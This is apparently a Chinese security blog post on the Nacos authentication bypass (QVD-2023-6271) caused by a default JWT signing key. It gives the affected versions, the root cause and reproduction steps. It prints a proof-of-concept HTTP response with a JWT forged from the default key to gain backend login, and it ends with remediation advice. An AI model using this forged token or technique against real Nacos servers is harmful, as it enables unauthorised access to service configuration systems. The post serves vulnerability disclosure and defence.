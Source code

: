 #  nacos身份绕过漏洞   
原创 剑豪321  网络安全学习爱好者   2024-11-13 18:54  
  
## 漏洞描述  
  
Nacos是一个易于使用的平台，专为动态服务发现和配置以及服务管理而设计。可以帮助您轻松构建云原生应用程序和微服务平台。  
  
Nacos 身份认证绕过漏洞(QVD-2023-6271)，开源服务管理平台 Nacos在默认配置下未对 token.secret.key 进行修改，导致远程攻击者可以绕过密钥认证进入后台，造成系统受控等后果。  
该系统通常部署在内网，用作服务发现及配置管理，历史上存在多个功能特性导致认证绕过、未授权等漏洞，建议升级至最新版本或修改默认密钥，并禁止公网访问，避免给业务带来安全风险。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZAPxzic90CGDR6lmaEBvZmxtt9POkbC51icSdkk6BgvYgDic9UbD1juNLnicHAgqNtHqZIvBibkhvRxibUup4lSAhia7g/640?wx_fmt=png "")  
## 漏洞追溯  
  
参考官方文档https://nacos.io/zh-cn/docs/v2/guide/user/auth.html  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZAPxzic90CGDR6lmaEBvZmxtt9POkbC51E5iaohXY2GXmghMdxNMeiaat2Jt0loPicIOXu8qSfgskWGYYjBqyanFAA/640?wx_fmt=png "")  
  
也就是Nacos的密钥是有默认值的，了解过Nacos的都知道其鉴权方式是JWT，我们知道了密钥即可伪造一个恶意的JWT令牌来进行攻击  
## 原理  
  
nacos在默认情况下未对token.secret.key进行修改，导致攻击者可以绕过密钥认证进入后台。  
  
也就是nacos的密钥是有默认值的，其鉴权是JWT,我们知道密钥即可伪造一个恶意的JWT令牌来攻击  
  
对于jwt加密 其实就是用了base64 密钥是写死在源码里面的 所以直接可以用jwt伪造攻击  
  
对应就是数据包的  
accesstoken  
## 影响版本  
  
0.1.0 <= Nacos <= 2.2.0  
## 漏洞复现  
  
在登录成功时，后台会生成一个accessToken，之后的任何请求都会基于这个accessToken来进行权限鉴定  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZAPxzic90CGDR6lmaEBvZmxtt9POkbC51kdX2icPQqhA9iagSyJ1En9NnPD6H8hChic1xMGW49KMxZGKghicKDgLCMg/640?wx_fmt=png "")  
  
对于jwt加密，其实就是做了base64加密，关键在于密钥，然而密钥是写死在源码当中的，所以我们可以直接进行JWT伪造攻击  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZAPxzic90CGDR6lmaEBvZmxtt9POkbC51FnXySqqicupjBfmkT6lY6wF0ibZMbXySaEFJ73SQhhxcLNhdQ8ebqzIA/640?wx_fmt=png "")  
```
访问url:http://169.254.250.138:8848/nacos/index.html#/login
```  
  
登陆抓包  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZAPxzic90CGDR6lmaEBvZmxtt9POkbC51CR3CMLWDibTyRcNYLvj7rTfxqrhmp5rOYwiawwGuM16EGkS6A4KDzibDw/640?wx_fmt=png "")  
  
拦截返回包填写poc  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZAPxzic90CGDR6lmaEBvZmxtt9POkbC51MSNHJDCE28ibnPjVqOgbcdkCBicOqCMyeic48ch4mTyTH8E14bN2MElSg/640?wx_fmt=png "")  
  
POC  
```
HTTP/1.1 200
Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTYxODEyMzY5N30.nyooAL4OMdiByXocu8kL1ooXd1IeKj6wQZwIH8nmcNA
Content-Type: application/json; charset=utf-8
Date: Tue, 14 Mar 2023 16:34:47 GMT
Content-Length: 206

{
 "accessToken": "eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTYxODEyMzY5N30.nyooAL4OMdiByXocu8kL1ooXd1IeKj6wQZwIH8nmcNA",
 "tokenTtl": 18000,
 "globalAdmin": false,
 "username": "nacos"
}
```  
  
成功登录  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZAPxzic90CGDR6lmaEBvZmxtt9POkbC51JViaQY33dBzyKReRxIDbiaJsqYjUwJwkdUuLAXppuYEJ6wtOfbWnSblg/640?wx_fmt=png "")  
## 修复建议  
  
1.升级为最新版2.2.0.1  
  
2.检查application.properties文件中token.secret.key属性，若为默认值，则自定义密钥  
  
参考官方文档进行修复Authorization (nacos.io)  
  
  
